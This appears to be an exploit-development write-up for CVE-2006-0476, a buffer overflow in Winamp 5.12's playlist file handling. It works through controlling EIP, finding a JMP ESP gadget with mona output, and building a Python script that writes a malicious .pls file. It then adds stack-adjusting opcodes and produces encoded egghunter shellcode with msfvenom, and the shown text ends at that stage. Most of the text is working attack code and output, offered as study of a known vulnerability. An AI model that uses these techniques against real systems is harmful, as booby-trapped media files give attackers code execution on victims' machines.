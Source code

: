 # Winamp 5.12 Playlist Buffer Overflow
References: 
- https://www.exploit-db.com/exploits/1458
- https://packetstormsecurity.com/files/152706/Winamp-5.12-Playlist-.pls-Buffer-Overflow.html
- https://www.cvedetails.com/cve/CVE-2006-0476/ 
- https://resources.infosecinstitute.com/topic/buffer-overflow-vulnserver/#gref
- https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/
  
*Buffer overflow in Nullsoft Winamp 5.12 allows remote attackers to execute arbitrary code via a playlist (pls) file with a long file name (File1 field).*

## Exploitation

### 1. Control EIP

PLS playlist structure as is follows:
```
[playlist]
File1=\Program Files\Winamp\demo.mp3 
Title1=DJ Mike Llama - Llama Whippin' Intro
Length1=5
NumberOfEntries=1
Version=2

```
The filename has to be long enough to overwrite the address of EIP. By sending increasingly longer inputs in as the filename, the length needed to control EIP is 1022, with the next 4 bytes on top of that being executed as the EIP address. 

![UI Screenshot](img/1.jpg) 

### 2. Find JMP ESP instruction
On the crash, ESP points to buffer space directly after EIP. Find a JMP ESP instruction:
```
0BADF00D   [+] Command used:
0BADF00D   !mona jmp -r esp

           ---------- Mona command started on 2020-12-22 16:29:07 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 8 modules
0BADF00D       - Querying module jnetlib.w5s
0BADF00D       - Querying module in_wm.dll
0BADF00D       - Querying module in_nsv.dll
0BADF00D       - Querying module winamp.exe
0BADF00D       - Querying module gen_ff.dll
0BADF00D       - Querying module gen_ml.dll
0BADF00D       - Querying module aacPlusDecoder.w5s
0BADF00D       - Querying module in_mp3.dll
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D       - Number of pointers of type 'call esp' : 2
0BADF00D       - Number of pointers of type 'push esp # ret ' : 20
0BADF00D       - Number of pointers of type 'push esp # ret 0x04' : 1
0BADF00D   [+] Results :
1A113749     0x1a113749 : jmp esp | ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1E8C15     0x1a1e8c15 : jmp esp |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1073614F     0x1073614f : call esp | ascii {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0202D961     0x0202d961 : call esp |  {PAGE_EXECUTE_READ} [in_mp3.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_mp3.dll)
66601B1D     0x66601b1d : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660480C     0x6660480c : push esp # ret  | ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
66604E65     0x66604e65 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660505E     0x6660505e : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
666068A3     0x666068a3 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660699A     0x6660699a : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660E2D1     0x6660e2d1 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
1501BAF6     0x1501baf6 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_nsv.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_nsv.dll)
1A10539F     0x1a10539f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A17B88F     0x1a17b88f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A18C3D2     0x1a18c3d2 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1CE776     0x1a1ce776 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1F3067     0x1a1f3067 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1072D056     0x1072d056 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0A4     0x1072d0a4 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0B7     0x1072d0b7 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open jmp.txt...
0BADF00D       Found a total of 25 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:07:22.697000
```
Of these, I can use the instruction at address: `0x1a1e8c15`.  
Exploit is now:
`[PADDING][JMP ESP][INTERRUPT]`
The interrupts are there to stop the program before it crashes again. Python exploit currently looks like:
```python
#!/usr/bin/env python

from struct import pack

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * 1022 + pack('<I', 0x1a1e8c15) + b'\xCC' * 4
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'

with open('exp.pls', 'wb') as plsFile:
	plsFile.write(plsPart1 + plsFile1 + plsPart2)

```

![UI Screenshot](img/2.jpg) 

When running the resulting playlist file, the interrupts get hit, so we are now jumping to ESP and executing there, but this has only a small amount of space, only 11 bytes to the next null byte, so any useful shellcode payload is not going to fit. So from here another jump needs to happen back into the original filename buffer. This can be done first by decreasing the ESP pointer back onto the buffer and then jumping again.
```bash
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./nasm_shell.rb 
nasm > sub esp, 58
00000000  83EC3A            sub esp,byte +0x3a
nasm > jmp esp
00000000  FFE4              jmp esp
```
With the space I have, I can subtract 58 from ESP twice and then jump there. Modifications to exploit:
```python
subesp = b'\x83\xEC\x3A'
jmpesp = b'\xFF\xE4'

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * (906+4) + b'\xCC' * (116-4) + pack('<I', 0x1a1e8c15) + (subesp * 2) + jmpesp
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'
```
I put some interrupts where the execution should jump to. Another interrupt back in the file buffer:

![UI Screenshot](img/3.jpg) 

Still not enough stack space for a payload, so from here use egghunter to jump again to a bigger area. Firstly generate some egghunter shellcode, needs to be passed to msfvenom to encode out badchars.
```bash
┌──(kali㉿kali)-[~]
└─$ msf-egghunter --arch x86 --platform windows -e JACK -f raw | msfvenom -p - --arch x86 --platform windows -e x86/alpha_mixed -f python --var-name egg > egghunt_encoded.py
Attempting to read payload from STDIN...

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 126 (iteration=0)
x86/alpha_mixed chosen with final size 126
Payload size: 126 bytes
Final size of python file: 625 bytes
```

